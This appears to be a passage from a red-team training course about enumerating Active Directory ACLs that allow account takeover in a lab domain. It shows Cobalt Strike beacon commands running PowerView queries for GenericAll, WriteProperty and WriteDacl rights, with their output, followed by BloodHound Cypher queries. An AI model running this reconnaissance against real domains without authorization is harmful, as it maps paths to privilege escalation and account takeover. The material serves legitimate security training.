 There may be instances across the domain where some principals have ACLs on more privileged accounts, that allow them to be abused for account-takeover. A simple example of this could be a "support" group that can reset the passwords of "Domain Admins".

We can start off by targeting a single principal. This query will return any principal that has **GenericAll**, **WriteProperty** or **WriteDacl** on jadams.

```
beacon> powershell Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl

SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
ActiveDirectoryRights : GenericAll

SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
ActiveDirectoryRights : GenericAll

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support
```

  

We could also cast a wider net and target entire OUs.

```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=cyberbotic,DC=io" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN=Joyce Adam,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=1st Line Support,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Developers,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Oracle Admins,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
```
  

In BloodHound, this query returns a lot of information which can look a bit confusing.

```
MATCH (g1:Group), (g2:Group), p=((g1)-[:GenericAll]->(g2)) RETURN p
```

  

We can narrow it down with:

```
MATCH (g1:Group {name:"1ST LINE SUPPORT@DEV.CYBERBOTIC.IO"}), (g2:Group), p=((g1)-[:GenericAll]->(g2)) RETURN p
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/dacl/generic-all.png)

  

This shows that 1st Line Support has **GenericAll** on multiple users and groups. So how can we abuse these?